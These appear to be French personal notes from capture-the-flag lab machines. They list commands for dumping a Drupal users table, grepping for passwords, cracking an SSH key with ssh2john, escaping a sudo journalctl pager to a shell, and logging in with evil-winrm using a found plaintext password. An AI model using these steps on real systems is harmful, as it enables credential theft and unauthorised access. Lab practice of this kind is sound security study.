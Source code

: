 # Vrac

Téléchargement d'un APK

Installer l'APK sur son tel Ouvrir un port sur le PC Windows -> Lancer Burp en écoute sur ce port

Set up un proxy sur ce port dans le téléphone Lancer l'application

/api/v4/monitoring/router/dev/check/deviceAccess -> Obtenu dans burp.





mysql --host=localhost --user=drupaluser --password=\*\*\*\* drupal -e "select \* from users"



grep -r -l "pass" --color=auto



ssh2john.py id\_rsa\_jo > id\_hash



showmont -t 10.10.10.180



Le script utiliser sudo sur journalctl. Relancer la commmande avec un écran plus petit et à la place de q pour quitter !/bin/sh



svn co svn://10.10.10.203

Ca m'a DL pas mal de document, ce qui est important c'est d'utiliser le svn:// sinon la commande ne fonctionne pas.

#### svn log svn://10.10.10.203

svn co -r 2 svn://10.10.10.203

svn co --username nathen svn://10.10.10.203







#### c:\Users>ls

ls Administrator All Users Default Default User Public desktop.ini restorer robisl

grep -rnlI "./" -e "pass" grep -rnlI "./" -e "robisl"



wmic logicaldisk get caption pour avoir les autres disk Caption\
C:\
W:



runas /user:robisl "dir C:\Users\robisl"



evil-winrm -u "robisl" -p "wolves11" -i 10.10.10.203 -> YESSSSSSSSSSS

_Evil-WinRM_ PS C:\Users\robisl\Documents> whoami worker\robisl

Il y a un truc avec les restorer je pense, ça doit etre une passerelle vers admin.

Groupe avec du ntsystem \*VSTS\_AgentService\_G181f7 -> J'ai vérifié que lui. \*VSTS\_AgentService\_G3eff7 \*VSTS\_AgentService\_G5f35d \*VSTS\_AgentService\_G81207 \*VSTS\_AgentService\_G8be50 \*VSTS\_AgentService\_G8f9d6 \*VSTS\_AgentService\_G93a88 \*VSTS\_AgentService\_Gb286d \*VSTS\_AgentService\_Gb4ad8 \*VSTS\_AgentService\_Ge7dab \*VSTS\_AgentService\_Ged5e3

ntauthority FS\_APPTIER\_SERVICE\_WPG

_Evil-WinRM_ PS C:\Users\robisl\Documents> net localgroup IIS\_IUSRS Alias name IIS\_IUSRS Comment Built-in group used by Internet Information Services.

Members

***

NT AUTHORITY\LOCAL SERVICE TFS\_APPTIER\_SERVICE\_WPG The command completed successfully.

